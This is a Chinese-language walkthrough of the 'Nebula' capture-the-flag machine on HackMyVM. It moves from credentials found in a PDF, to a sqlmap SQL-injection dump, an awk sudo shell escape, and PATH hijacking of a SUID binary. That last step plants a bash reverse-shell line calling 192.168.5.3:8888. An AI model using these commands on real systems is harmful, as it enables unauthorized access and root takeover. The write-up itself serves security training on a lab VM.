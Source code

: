 # Nebula

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Nebula

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

有登陆窗口，但是没有 sql 注入，在目录爆破中发现http://192.168.5.40/joinus/application_form.pdf 里面有一段标记了绿色的登陆凭据：

```
user=admin&password=d46df8e6a5627debf930f7b5c8f3b083
```

http://192.168.5.40/login/index.php 使用此凭据登陆成功。

搜索页面存在 sql 注入: http://192.168.5.40/login/search_central.php 直接 sqlmap：

```
nebuladb库中存在3个表: central 、centrals 、 users
sqlmap -r req.txt --batch -D nebuladb -T users --dump
```

发现 pmccentral:999999999 可登陆 ssh。 sudo -l 显示 awk，可切换到另外一个用户 laboratoryadmin:

```
sudo -u laboratoryadmin awk 'BEGIN {system("/bin/bash")}'
```

先拿到 user flag:

```
laboratoryadmin@laboratoryuser:~$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

发现 suid 程序：

```
laboratoryadmin@laboratoryuser:~/autoScripts$ ls -al
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin     8 Dec 18  2023 head
-rwsr-xr-x 1 root            root            16792 Dec 17  2023 PMCEmployees
```

strings 查看字符串发现 PMCEmployees 内部调用了: head /home/pmccentral/documents/employees.txt , 直接修改 head 脚本的内容,并进行 PATH 变量劫持：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > head
export PATH=/home/laboratoryadmin/autoScripts:$PATH
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
```

拿到 root flag:

```
root@laboratoryuser:/root# cat root.txt
flag{r00t_t3ns0}
```

